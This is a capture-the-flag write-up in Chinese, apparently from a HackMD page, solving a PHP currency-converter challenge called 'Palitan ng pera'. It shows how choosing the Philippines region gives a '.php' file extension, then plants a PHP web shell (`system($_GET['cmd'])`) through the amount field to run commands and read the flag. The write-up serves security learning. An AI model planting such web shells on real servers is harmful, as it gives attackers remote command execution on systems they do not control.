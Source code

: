 ![image](https://hackmd.io/_uploads/SJJqZwCK6.png)
再cat他
![image](https://hackmd.io/_uploads/BJ-sbv0ta.png)

![image](https://hackmd.io/_uploads/S1Ro-PCYp.png)

![image](https://hackmd.io/_uploads/H1MCgvAKp.png)

## Palitan ng pera
題目有給原始碼，以下是 `index.php` 的關鍵邏輯
```php=
<?php
error_reporting(E_ALL & ~E_WARNING & ~E_NOTICE);
include("currency.php");

$resultLink = "";

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $region = $_POST["region"];
    $amount = $_POST["amount"];

    $isoName = $countryData[$region]["ISO"];
    $rate = $countryData[$region]["toTWD"];

    $convertedAmount = $amount * $rate ?: $amount;

    $htmlContent = "<html><body>";
    $htmlContent .= "<h1> Exchange result </h1>";
    $htmlContent .= "<p>{$amount} TWD = {$convertedAmount} {$isoName}</p>";
    $htmlContent .= "<a href='/'>Back to Home</a></body></html>";

    $filePath = "upload/" . md5(uniqid()) . "." . $isoName;
    file_put_contents($filePath, $htmlContent);

    $resultLink = "<a href='" . $filePath . "'> 👁️ exchange result</a>";
}
?>
```
可以看到他會根據 `$_POST["region"]` 來決定要用哪個國家的匯率，而` $_POST["amount"] `則是要換多少錢，而這兩個都是使用者可以控制的

另外可以看到當作完相關匯率計算之後，會寫一個 html 的內容到一個檔案中，檔案名稱是亂數，不過附檔名的部分是根據` $_POST["region"] `查詢 `countryData` 後的結果，而這個 `countryData` 是在 `currency.php `中

而基本上這個題目就只有這個功能，因此可以想像得到是要用 LFI 做 RCE，雖然檔案內容我們可以用 `$_POST["amount"] `來控制成 PHP webshell 的東西，但是附檔名的部份我們還是需要控制成 `.php `才能夠執行

不過實際去` currency.php `做一下搜尋之後，可以看到 Philippines 的 ISO name 恰巧就是 PHP，因此只要我們選擇國家是 Philippines，那麼附檔名就會是` .php`，這樣我們只要在檔案中寫入 PHP webshell 就可以 RCE 了
![image](https://hackmd.io/_uploads/rkJxwKJqp.png)
因此我們可以使用以下的輸入
```
region: Philippines
amount: <?php system($_GET['cmd']); ?>
```
在 `cmd` 參數的部分就可以執行指令做到 RCE
之後ls../../../就看到flag檔cat出來就可以了
![image](https://hackmd.io/_uploads/By5gwFy5a.png)
